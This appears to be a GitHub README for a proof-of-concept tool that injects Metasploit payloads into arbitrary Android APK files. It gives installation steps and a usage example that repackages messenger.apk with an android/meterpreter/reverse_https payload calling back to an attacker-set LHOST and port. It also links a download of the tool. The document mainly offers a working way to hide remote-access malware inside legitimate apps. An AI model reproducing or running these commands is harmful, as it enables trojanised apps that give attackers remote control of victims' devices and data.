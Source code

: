 
# **Use it on your own risk**
Embed a Metasploit Payload in an Original .Apk File
<br />
> I choose a lazy person to do a hard job. Because a lazy person will find an easy way to do it.
 
  — [Bill Gates](http://www.goodreads.com/quotes/568877-i-choose-a-lazy-person-to-do-a-hard-job)
 
**This script is a POC for injecting metasploit payloads on arbitrary APKs**

**Authored by timwr, Jack64 , developed by [xC0d3rZ](https://xc0d3rz.github.io)**

### Installation

```bash
 gem install bundler
 bundler install
```

### Requirements 
 
 1. Ruby (**>= 1.8.7**).
 2. apktool.jar (**>= 2.x**).

### Usage

```bash
./run [target.apk] [msfvenom options]
```
<br>
e.g

```bash
./run messenger.apk -p android/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=8443
```
### [Download](https://github.com/xc0d3rz/metasploit-apk-embed-payload/releases)
  

